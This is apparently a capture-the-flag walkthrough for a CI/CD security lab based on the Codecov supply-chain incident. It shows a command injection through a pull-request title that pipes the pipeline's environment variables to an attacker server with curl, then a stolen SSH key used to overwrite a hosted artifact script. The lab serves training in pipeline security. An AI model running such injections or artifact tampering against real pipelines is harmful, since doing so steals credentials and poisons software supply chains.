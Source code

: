 [![CICD-SEC-8 Ungoverned Usage of 3rd Party Services](https://img.shields.io/badge/CICD--SEC--8-Ungoverned%20Usage%20of%203rd%20Party%20Services-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/ungoverned-usage-of-3rd-party-services/)

[![CICD-SEC-9 Improper Artifact Integrity Validation](https://img.shields.io/badge/CICD--SEC--9-Improper%20Artifact%20Integrity%20Validation-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/improper-artifact-integrity-validation/)

This challenge draws inspiration from the [Codecov incident](https://about.codecov.io/security-update/), in which a 3rd party artifact included in the pipeline is hijacked.

Codecov has a script used in customers’ CI pipelines. The script was hosted separately from its open-sourced code. The script was modified directly where it’s stored (without changing the source code) with malicious code that stole credentials from pipeline jobs.

Pipelines that would have validated the script’s hash against the repository code, would have prevented a successful attack.

In the challenge, Reportcov is a public repository of a 3rd party used by other CI pipelines. It has its own pipeline (which you can’t view), creating an artifact stored remotely. You can execute command injection in the pipeline in order to run malicious code in the job, steal the private key of the server hosting the artifact, and then modify it to exfiltrate credentials from CI pipelines that use the artifact.



1. Fork the _Cov/reportcov_ repository and create an arbitrary change.
2. Create a pull request with the following command as its title:

    ```shell
    `env | curl -H "Content-Type: application/json" -X POST -d "$(</dev/stdin)" <YOUR SERVER>`
    ```


3. Use the private key to upload a malicious _reportcov.sh_ script: 

    ```shell
    echo "${FLAG}" | base64 > reportcov.sh
    chmod 400 key
    scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
    ```


4. Run the dormouse pipeline.
5. Access the console output of the executed job to get the secret.